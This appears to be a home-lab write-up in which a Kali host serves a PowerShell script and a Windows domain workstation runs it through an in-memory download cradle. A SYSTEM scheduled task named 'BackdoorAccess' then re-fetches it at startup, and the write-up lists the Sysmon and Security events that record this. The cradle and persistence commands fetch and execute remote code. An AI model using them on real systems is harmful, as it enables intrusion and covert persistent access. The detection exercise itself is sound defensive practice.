 # Active Directory Attack Playbook (PowerShell Download Cradle and Backdoor Establishment)

## Overview

- **Target:** Windows Workstation (within the soc.lab domain)

  - **IP Address:** 192.168.10.20
  - **Domain:** SOC.LAB

- **Attacker:** Kali

  - **IP Address:** 192.168.20.30

## Objective

The objective of this attack is to use a PowerShell Download Cradle to deliver a malicious payload from the attacker (Kali Linux) to the target Windows machine. This payload simulates establishing a persistent backdoor for remote access. This technique is commonly used to exfiltrate data, maintain long-term access, and execute malicious commands stealthily.

## Attack Execution Timeline

1. **Set Up the Malicious Payload on Kali**

   - Created a simple PowerShell payload to simulate malware activity and establish a persistent backdoor:

   ```bash
   echo 'Write-Output "Malware Simulation Active"; Start-Sleep -s 300' > /var/www/html/malicious.ps1
   sudo systemctl start apache2
   ```

   - Verified that the web server is hosting the payload:

   ```bash
   curl http://192.168.20.30/malicious.ps1
   ```



2. **Execute the PowerShell Download Cradle on Windows**

   - On the Windows Workstation (192.168.10.20), ran the following PowerShell command to download and execute the payload in memory:

   ```powershell
   powershell -exec bypass -NoProfile -Command "IEX(New-Object Net.WebClient).DownloadString('http://192.168.20.30/malicious.ps1')"
   ```



3. **Establishing Persistent Access**

   - Created a scheduled task to maintain access:

   ```powershell
   $action = New-ScheduledTaskAction -Execute 'powershell.exe' -Argument "-exec bypass -NoProfile -Command IEX(New-Object Net.WebClient).DownloadString('http://192.168.20.30/malicious.ps1')"
   $trigger = New-ScheduledTaskTrigger -AtStartup
   Register-ScheduledTask -Action $action -Trigger $trigger -TaskName "BackdoorAccess" -User "NT AUTHORITY\SYSTEM"
   ```



## Monitoring Windows Logs

### Sysmon Logs Analysis

- **Observation:**
  - **Event ID 1**: Process Creation – Captured the execution of `powershell.exe` with the malicious download cradle.

  - **Event ID 3**: Network Connection – Logged outbound HTTP requests to `192.168.20.30` during the payload retrieval.


### Windows Security Logs

- **Event ID 4688 – Process Creation**

  - Recorded the creation of a PowerShell process executing the download cradle.

- **Event ID 4698 – Scheduled Task Creation**

  - Detected the registration of a scheduled task named `BackdoorAccess` using `powershell.exe`.



### Detailed User Log Analysis

- **User Activity:**

  - Logs show PowerShell execution under the context of `NT AUTHORITY\SYSTEM`.

  - The payload was executed immediately after the task creation event.

  - **User SYSTEM:**



- **Logoff Event:**

  - No immediate logoff event detected, indicating persistent access.

## Cleanup

1. **Remove the Backdoor Task**

   ```powershell
   Unregister-ScheduledTask -TaskName "BackdoorAccess" -Confirm:$false
   ```

2. **Stop the Apache Server on Kali**

   ```bash
   sudo systemctl stop apache2
   ```

